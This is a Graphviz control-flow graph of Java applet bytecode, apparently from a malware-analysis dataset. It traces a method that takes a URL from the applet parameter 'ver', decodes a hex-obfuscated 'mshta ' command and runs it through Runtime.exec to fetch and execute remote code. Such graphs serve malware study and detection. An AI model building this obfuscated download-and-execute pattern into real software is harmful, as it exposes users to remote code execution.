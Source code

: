 digraph "" {
    "r0 := @this: main"
    "load.r r0"
    "r0 := @this: main"->"load.r r0";
    "push \"ver\""
    "load.r r0"->"push \"ver\"";
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"
    "push \"ver\""->"virtualinvoke <main: java.lang.String getParameter(java.lang.String)>";
    "push \"http://\""
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"->"push \"http://\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"http://\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifne goto return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifne goto return";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "ifne goto return"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "new java.lang.StringBuffer"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push \"6D7368746120\""
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"6D7368746120\"";
    "staticinvoke <main: java.lang.String HS(java.lang.String)>"
    "push \"6D7368746120\""->"staticinvoke <main: java.lang.String HS(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "staticinvoke <main: java.lang.String HS(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"push \"ver\"";
    "push \"ver\""->"virtualinvoke <main: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
}
